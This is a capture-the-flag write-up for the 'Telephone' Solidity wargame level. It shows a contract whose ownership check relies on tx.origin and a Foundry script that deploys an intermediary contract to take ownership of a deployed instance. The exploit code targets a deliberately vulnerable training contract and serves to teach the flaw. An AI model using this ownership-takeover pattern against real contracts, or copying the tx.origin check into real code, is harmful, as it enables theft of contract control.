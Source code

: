 ## Telephone

**Level4.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

**Goal:**   Claim the ownership of the Telephone contract

**Explanation:**

1. If the `msg.sender` is equals to `tx.origin` which means the call was from a EOA. If its not, then the call is from a contract.
2. To bypass that check, I have an written an intermediary contract  which will call the `changeOwner()` function.
3. Thus `msg.sender` is our intermediary contract and `tx.origin` is our EOA.
4. Simply call the `changeOwner()` function from the intermediary contract.

**Level4Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level4.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract IntermediatoryContract{

    constructor(Telephone _telephoneInstance, address _newOwner){
        _telephoneInstance.changeOwner(_newOwner);
    }
}

contract Level4Sol is Script{

    Telephone public level4 = Telephone(0x7Ca95d4b9f0a67539f9A3586e895C67547c76190);

    function run() external{
    
    vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
 
    new IntermediatoryContract(
        level4,vm.envAddress("MY_ADDRESS")
    );

    vm.stopBroadcast();
    }
```